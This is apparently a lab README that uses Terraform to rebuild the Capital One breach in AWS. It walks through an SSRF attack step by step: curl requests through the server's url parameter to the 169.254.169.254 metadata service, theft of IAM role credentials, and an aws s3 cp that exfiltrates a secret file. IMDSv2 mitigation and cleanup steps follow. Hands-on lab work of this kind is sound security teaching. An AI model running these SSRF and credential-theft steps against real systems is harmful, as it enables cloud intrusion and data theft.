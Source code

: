 # Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the [main.tf](../main.tf) file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```$ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ``` 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:
   ```
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ```
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

    ![](ssrf_1.png)  

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.
   ```
   $ aws configure --profile c-demo
   ```  
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:
   ```
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.
   ```
   $ aws s3 ls {bucket_name} --profile c-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents
   ```
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.
```
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```
The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:
```
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```
  $ terraform destroy
  ```

## References:
1. https://blog.lightspin.io/tag/cloud-security
2. https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a
3. https://blog.gruntwork.io/how-to-create-reusable-infrastructure-with-terraform-modules-25526d65f73d
4. https://www.youtube.com/watch?v=tPQsI8n6er0

